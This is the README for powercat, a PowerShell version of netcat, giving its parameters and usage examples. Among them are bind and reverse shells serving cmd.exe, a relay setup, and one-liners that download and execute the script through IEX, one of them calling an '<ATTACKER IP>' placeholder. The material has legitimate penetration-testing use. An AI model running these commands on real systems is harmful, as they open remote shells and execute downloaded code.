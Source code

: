 #powercat

Netcat: The powershell version. (v2 compatible)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u    Transfer data over UDP.                              [Switch]
    -t    Timeout option. Default: 60                          [int32]
    -i    Input: Filepath (string), byte array, or string.
    -o    Output Type: "Host", "Bytes", or "String"            [String]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powercat -l -p 8000 -o "String" | Out-File C:\outputfile
        [IO.File]::WriteAllBytes("C:\outputfile",(powercat -l -p 8000 -o "Bytes"))
    Send a File:
        powercat -c 10.1.1.10 -p 443 -i "C:\inputfile"
        ([IO.File]::ReadAllBytes('C:\inputfile')) | powercat -c 10.1.1.10 -p 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        foreach($p in (21,22,80,443)){powercat -c 10.1.1.10 -p $p -t 1 -Verbose}
